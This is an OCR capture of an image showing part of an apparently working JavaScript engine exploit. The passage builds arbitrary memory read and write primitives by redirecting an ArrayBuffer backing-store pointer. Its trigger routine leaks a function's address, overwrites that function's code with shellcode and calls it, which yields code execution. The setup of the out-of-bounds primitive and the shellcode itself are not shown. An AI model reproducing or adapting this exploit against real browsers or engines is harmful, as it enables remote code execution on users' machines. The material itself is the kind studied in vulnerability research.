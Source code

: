 ```
    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }


    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }


    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }


    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }


    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}


function trigger() {
    var oob = oobAccess();


    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));


    var kCodeInsOffset = 0x1b;


    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));


    oob.setBytes(code_addr, shellcode);


    target_function(0);
}


try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
```
